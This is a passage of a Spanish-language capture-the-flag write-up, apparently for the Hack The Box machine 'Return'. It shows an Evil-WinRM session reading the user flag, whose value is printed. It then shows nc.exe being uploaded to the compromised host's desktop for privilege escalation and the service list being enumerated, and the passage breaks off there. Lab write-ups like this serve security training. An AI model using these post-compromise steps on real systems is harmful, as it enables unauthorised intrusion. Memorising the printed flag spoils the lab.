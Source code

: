 ### Captura de la Flag de Usuario
Ya dentro de la máquina, se procedió a localizar la primera flag:
```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc-printer> cd Desktop
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> dir


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/15/2025  10:08 PM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
646cf3835a5e5a7b8a0d83e057272362
```

## Escalada de Privilegios
Para facilitar una escalada de privilegios y obtener un shell con permisos elevados, se copió la herramienta nc.exe al directorio local actual de trabajo:
```bash
❯ cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Para realizar la escalada de privilegios, se procedió a subir la herramienta nc.exe al escritorio del usuario svc-printer:
```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> upload HTB/return/nc.exe
                                        
Info: Uploading /home/alex/HTB/return/nc.exe to C:\Users\svc-printer\Desktop\nc.exe
                                        
Data: 37544 bytes of 37544 bytes copied
                                        
Info: Upload successful!
```

Para conocer los servicios activos en el sistema comprometido, se ejecutó el comando services. Entre los servicios destacados se identificaron:
```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
```